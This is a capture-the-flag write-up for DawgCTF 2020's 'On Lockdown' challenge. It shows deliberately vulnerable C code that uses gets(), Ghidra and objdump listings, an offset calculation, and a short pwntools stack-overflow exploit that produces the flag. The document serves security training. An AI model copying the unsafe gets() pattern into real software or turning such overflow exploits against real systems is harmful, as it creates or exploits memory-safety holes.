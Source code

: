 # DawgCTF 2020

## On Lockdown

> 50
>
> Better than locked up I guess
>
> `nc ctf.umbccd.io 4500`
> 
> Author: trashcanna
> 
> [onlockdown](onlockdown) [onlockdown.c](onlockdown.c)

Tags: _pwn_


### Analysis

#### Checksec

```
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Most mitigations in place, however can smash stack, ROP, buffer overflow, but no GOT.


#### Source Included!

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void flag_me(){
    system("cat flag.txt");
}

void lockdown(){
    int lock = 0;
    char buf[64];
    printf("I made this really cool flag but Governor Hogan put it on lockdown\n");
    printf("Can you convince him to give it to you?\n");
    gets(buf);
    if(lock == 0xdeadbabe){
        flag_me();
    }else{
        printf("I am no longer asking. Give me the flag!\n");
    }
}

int main(){
    lockdown();
    return 0;
}
```

Just need to set `lock` to `0xdeadbabe`.

But wait, from Ghidra:

```
void lockdown(void)

{
  char local_50 [64];
  int local_10;
  
  local_10 = 0;
  puts("I made this really cool flag but Governor Hogan put it on lockdown");
  puts("Can you convince him to give it to you?");
  gets(local_50);
  if (local_10 == 0) {
    puts("I am no longer asking. Give me the flag!");
  }
  else {
    flag_me();
  }
  return;
}
```

And `objdump`:

```
    1230:	83 7d f4 00          	cmp    DWORD PTR [ebp-0xc],0x0
    1234:	74 07                	je     123d <lockdown+0x59>
    1236:	e8 7e ff ff ff       	call   11b9 <flag_me>
    123b:	eb 12                	jmp    124f <lockdown+0x6b>
```

`lock` just has to be non-zero!  You can accidentally solve this by blasting a lot of anything.

There is clearly a buffer overflow: `gets(local_50)`.  `local_50` is 76 bytes above EBP: 

```
00011224 8d 45 b4        LEA        EAX=>local_50,[EBP + -0x4c]
```

`local_10` is 12 (`[ebp-0xc]`) bytes above EBP, so sending 64 (76-12) bytes + 4 bytes will set `local_10`.


### Exploit

```
from pwn import *

p = process('./onlockdown')
#p = remote('ctf.umbccd.io', 4500)

p.recvuntil('you?\n')

payload  = 64 * b'A'
payload += 4 * b'A'

p.sendline(payload)
p.stream()
```

#### Output

```
[+] Opening connection to ctf.umbccd.io on port 4500: Done
DawgCTF{s3ri0u$ly_st@y_h0m3}
```

#### Flag

```
DawgCTF{s3ri0u$ly_st@y_h0m3}
```
